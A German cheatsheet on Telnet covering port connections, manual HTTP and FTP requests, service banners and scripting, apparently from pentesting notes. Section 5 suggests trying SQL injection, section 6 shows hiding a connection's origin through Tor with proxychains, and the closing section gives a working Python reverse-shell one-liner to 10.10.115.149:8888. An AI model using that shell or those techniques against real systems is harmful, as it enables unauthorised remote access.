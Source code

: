 # Telnet

Telnet ist ein Netzwerkprotokoll, das vorwiegend für die Kommunikation mit entfernten Systemen über eine Text-basierte Konsole genutzt wird. In modernen Anwendungen wird es oft verwendet, um mit verschiedenen Diensten und Servern zu interagieren, Fehler zu diagnostizieren oder Dienste zu testen. Dieses Cheatsheet bietet eine Übersicht zu grundlegenden Telnet-Befehlen und Anwendungsfällen, einschließlich der Identifizierung und Interaktion mit verschiedenen Diensten.

***

**1. Grundlegende Telnet-Befehle**

*   **Verbindung zu einem Host herstellen:** Um eine Verbindung zu einem Server auf einem spezifischen Port herzustellen, kann der folgende Befehl verwendet werden:

    ```bash
    telnet <IP-Adresse> <Port>
    ```

    Beispiel:

    ```bash
    telnet 192.168.1.1 80
    ```
* **Verbindung schließen:** Um die Telnet-Sitzung zu beenden, drückt man `Ctrl+]`, um den Telnet-Befehlsprompt zu öffnen, und gibt dann den Befehl `quit` ein.
* **Interaktive Eingabe von Befehlen:** In der Telnet-Sitzung können beliebige Befehle zur Kommunikation mit dem Server eingegeben werden. Dies ist besonders nützlich für manuelle HTTP- oder FTP-Anfragen.

***

**2. Telnet für Webdienste (HTTP)**

Telnet eignet sich gut, um mit HTTP-Servern zu kommunizieren. Hiermit können HTTP-Anfragen manuell gesendet und die Serverantworten analysiert werden.

*   **Beispiel einer HTTP-GET-Anfrage:**

    ```bash
    GET / HTTP/1.1
    Host: <Ziel-Host>
    ```

    Beispiel:

    ```bash
    GET /index.html HTTP/1.1
    Host: example.com
    ```
*   **Beispiel einer HTTP-POST-Anfrage:**

    ```bash
    POST /submit HTTP/1.1
    Host: <Ziel-Host>
    Content-Length: <Länge der Daten>

    <Daten>  # Hier die zu sendenden Daten eingeben
    ```

***

**3. Identifizierung von Diensten über Telnet**

Telnet kann verwendet werden, um verschiedene Dienste, die auf bestimmten Ports laufen, zu identifizieren. Nach der Herstellung einer Verbindung kann der Dienst an der Antwort des Servers erkannt werden.

| **Port** | **Dienst**         | **Beschreibung**                                           |
| -------- | ------------------ | ---------------------------------------------------------- |
| 21       | FTP                | File Transfer Protocol, zum Übertragen von Dateien         |
| 22       | SSH                | Secure Shell, für verschlüsselte Remote-Verbindungen       |
| 23       | Telnet             | Terminalprotokoll für unverschlüsselte Remote-Verbindungen |
| 25       | SMTP               | Simple Mail Transfer Protocol, für E-Mail-Übertragungen    |
| 53       | DNS                | Domain Name System, für Domainnamensauflösungen            |
| 80       | HTTP               | Hypertext Transfer Protocol, Standard für Webseiten        |
| 443      | HTTPS              | HTTP über SSL/TLS für sichere Webseiten                    |
| 3306     | MySQL              | Datenbankdienst für MySQL                                  |
| 8080     | HTTP (Alternative) | Web-Server, oft für Proxy-Dienste oder alternative Ports   |

**Beispiel: Telnet zu einem HTTP-Server**

```bash
telnet example.com 80
```

Dann kann eine HTTP-GET-Anfrage wie folgt eingegeben werden:

```bash
GET / HTTP/1.1
Host: example.com
```

**Beispiel: Telnet zu einem FTP-Server**

```bash
telnet example.com 21
```

Die Antwort könnte etwa so aussehen:

```
220 (vsFTPd 3.0.3) Welcome message
```

Nun kann man typische FTP-Befehle wie `USER`, `PASS` oder `LIST` verwenden, um mit dem Server zu interagieren.

***

**4. Erkennung von Diensten**

Nach der Herstellung einer Telnet-Verbindung kann die Antwort des Servers genutzt werden, um den ausgeführten Dienst zu identifizieren.

* **FTP:** Antwort beginnt typischerweise mit `220`, gefolgt von einer Versionsnummer des FTP-Servers (z.B., `220 (vsFTPd 3.0.3)`).
* **SMTP:** Antwort beginnt oft mit `220` und enthält eine Beschreibung des Mail-Servers.
* **HTTP:** Antwort beginnt mit dem HTTP-Protokoll und einem Statuscode, z.B., `HTTP/1.1 200 OK`.
* **MySQL:** Antwort beginnt mit einer Versionsnummer von MySQL, z.B., `5.7.32-log MySQL Community Server`.
* **SSH:** Antwort beginnt mit `SSH-2.0` gefolgt von einer Versionsnummer, z.B., `SSH-2.0-OpenSSH_7.4p1`.

***

**5. Nutzung von Telnet für Interaktive Shells**

Telnet kann verwendet werden, um mit Diensten zu interagieren, die eine **interaktive Shell** anbieten. Beispielsweise kann über Telnet auf einen MySQL-Server zugegriffen werden.

**Beispiel: Telnet zu einem MySQL-Server**

```bash
telnet example.com 3306
```

Die Antwort könnte eine MySQL-Version angeben:

```
5.7.32-log MySQL Community Server (GPL)
```

Hier könnte man versuchen, SQL-Befehle oder Schwachstellen wie SQL-Injection zu nutzen, um weitere Informationen zu erlangen.

***

**6. Sicherheitsüberlegungen**

Telnet überträgt alle Daten, einschließlich Passwörtern, unverschlüsselt. Daher sollte Telnet nur in sicheren, vertrauenswürdigen Netzwerken verwendet werden. Wenn Anonymität oder Verschlüsselung erforderlich sind, sollte man auf sicherere Alternativen wie **SSH** oder **Tor** zurückgreifen.

*   **Anonymität mit Tor:** Es ist möglich, Telnet-Verbindungen über das Tor-Netzwerk zu tunneln, um die Herkunft der Anfrage zu verbergen. Dies kann durch den Einsatz von Tools wie **proxychains** erreicht werden:

    ```bash
    proxychains telnet example.com 80
    ```

***

**7. Telnet-Skripting**

Telnet kann auch automatisiert werden, um wiederholte Interaktionen zu erleichtern. Ein einfaches Bash-Skript könnte verwendet werden, um HTTP-Anfragen über Telnet zu senden.

Beispiel eines Bash-Skripts:

```bash
#!/bin/bash
telnet example.com 80 <<EOF
GET / HTTP/1.1
Host: example.com
EOF
```

***

### Oneline Reverse-Shells

#### Python

`import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.10.115.149", 8888)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); subprocess.call(["/bin/sh", "-i"])`
